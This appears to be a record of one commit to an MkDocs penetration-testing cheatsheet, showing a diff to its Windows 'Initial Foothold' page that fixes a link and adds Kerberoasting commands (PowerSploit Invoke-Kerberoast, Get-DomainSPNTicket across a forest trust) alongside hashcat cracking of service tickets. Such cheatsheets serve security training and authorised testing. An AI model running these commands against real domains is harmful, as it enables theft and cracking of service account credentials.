

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Initial_Foothold.md, in a window 1280 px wide and 900 px high, scrolled down 2900 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update Initial_Foothold.md

````diff
--- a/docs/Windows/Initial_Foothold.md
+++ b/docs/Windows/Initial_Foothold.md
@@ -48,7 +48,7 @@ ___
 ```
 ___
 
-## [Dumping credentials](../../#dumping-credentials)
+## [Dumping credentials](./Post_Exploitation.html#dumping-credentials1)
 ___
 ## Bloodhound (Sharphound)[^2]
 
@@ -111,6 +111,18 @@ ___
     ```
 
 1. From Windows
+    * [PowerSploit](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
+        ```powershell
+        Invoke-Kerberoast -Domain domain.com -OutputFormat hashcat
+        ```
+        * Getting SPN ticekts of from an external external forest
+            * Works if there is trust towards the domain you are in
+            ```powershell
+            Get-DomainSPNTicket <SERVICE>/DC01.domain-external.com@domain-external.com
+            ```
+
+
+[Password Cracking](../../Password_Cracking/Hashcat_general_cheatsheet.html)
     * Refer to [m0chan's blog](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html)
     ```batch
     hashcat64.exe -a 3 -m 13100 SPN.hash /wordlists/rockyou.txt
````
